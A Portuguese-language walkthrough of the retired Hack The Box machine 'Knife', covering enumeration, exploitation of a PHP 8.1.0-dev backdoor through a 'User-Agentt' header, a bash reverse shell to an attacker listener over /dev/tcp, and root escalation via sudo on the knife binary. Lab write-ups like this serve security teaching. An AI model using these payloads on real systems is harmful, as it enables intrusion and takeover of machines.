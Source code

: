 ```yaml
---
layout: single
title: "Walktrough: HTB Knife"
namespace: htb-knife
category: Walkthrough
tags:
   - HackTheBox
   - HTB Easy
   - HTB Linux
date: 2021-08-28 12:00:00
header:
   teaser: https://i.imgur.com/U5A7c9y.png
   og_image:   https://i.imgur.com/U5A7c9y.png
redirect_from: /writeup/2021/08/htb-knife
---
```


Olá!

A máquina desta semana será **Knife**, outra máquina Linux classificada como fácil do [Hack The Box](https://www.hackthebox.eu/), criada por [MrKN16H](https://app.hackthebox.eu/users/98767).<!--more-->

:information_source: **Info**: Write-ups para máquinas do Hack The Box são postados assim que as máquinas são aposentadas.
{: .notice--info}

![HTB Knife](https://i.imgur.com/3IO9vBj.png){: .align-center}

Esta máquina foi bem simples, onde você deve prestar atenção aos detalhes (no caso do webserver vulnerável) e sempre ir pelo caminho mais simples como abusar das permissões de `sudo` que o usuário já possui.

Espero que gostem!

## Enumeração

Como de costume, iniciei com um scan rápido do `nmap` para verificar os serviços publicados nesta máquina:

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.242
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 17:50 -03
Nmap scan report for 10.10.10.242
Host is up (0.072s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.42 seconds
```

### 80/TCP - Serviço HTTP

Acessando o website podemos ver uma simples página institucional de uma companhia do setor de saúde, conforme abaixo:

![HTB Knife - HTTP Service](https://i.imgur.com/oAbssxJ.png){: .align-center}

Após acessar a página, obtido algumas informações adicionais, os componentes utilizados e qual o webserver em execução com ajuda do `whatweb` e o que chamou a atenção foi o cabeçalho `X-Powered-By` que aponta para uma versão de desenvolvimento do **PHP 8.1.0**.

```bash
$ whatweb --color=never -a 3 10.10.10.242 | tee whatweb.txt
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], , Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

## Acesso inicial e User flag

Como versões de desenvolvimento frequentemente contém vulnerabilidades, decidi buscar a respeito da mesma com `searchsploit` e encontrei uma vulnerabilidade de execução remota de código (RCE - *Remote Code Execution*) conforme listado abaixo:

```bash
$ searchsploit "8.1.0-dev"
---------------------------------------------------------------------- ----------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ----------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                   | php/webapps/49933.py
---------------------------------------------------------------------- ----------------------------
Shellcodes: No Results
```

Esta vulnerabilidade consiste em um backdoor adicionado em alguns commits por contas comprometidas no código fonte do PHP onde, sempre que um request contém o cabeçalho `User-Agentt: "zerodiumsystem('cmd');"` é enviado, seu conteúdo é interpretado e executado, neste caso o conteúdo `cmd`. O exploit disponível simula um shell de modo não interativo e, a partir dele, iniciei um shell reverso interativo com o payload `bash -c 'bash -i >& /dev/tcp/10.10.10.10/4443 0>&1'` que nos retornou uma sessão a partir da conta do usuário **james**, onde encontramos o arquivo `user.txt` e foi possível ler seu conteúdo, obtendo a primeira flag.

```bash
james@knife:~$ id && hostname
uid=1000(james) gid=1000(james) groups=1000(james)
knife
james@knife:~$ cat user.txt
<redacted>
```

## Root flag

Como de costume, iniciei com o comando `sudo -l` e tive sorte mais uma vez, vendo o seguinte output:

```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
   (root) NOPASSWD: /usr/bin/knife              
```

Realizando uma busca rápida a respeito do binário, encontrei que se trata de parte da solução de gestão de configuração [Chef](https://www.chef.io/) e, de acordo com a página [knife \| GTFOBins](https://gtfobins.github.io/gtfobins/knife/#sudo), poderia ser utilizada facilmente para escalar privilégio como root, conforme abaixo, nos permitindo obter a última flag :smiley:

```bash
james@knife:~$ sudo /usr/bin/knife --help                                                                                 Chef Infra Client: 16.10.8

Docs: https://docs.chef.io/workstation/knife/
Patents: https://www.chef.io/patents

[...]

james@knife:~$ sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
# cat root.txt
<redacted>
```

Espero que tenham gostado!

Vejo vocês no próximo post :smile:
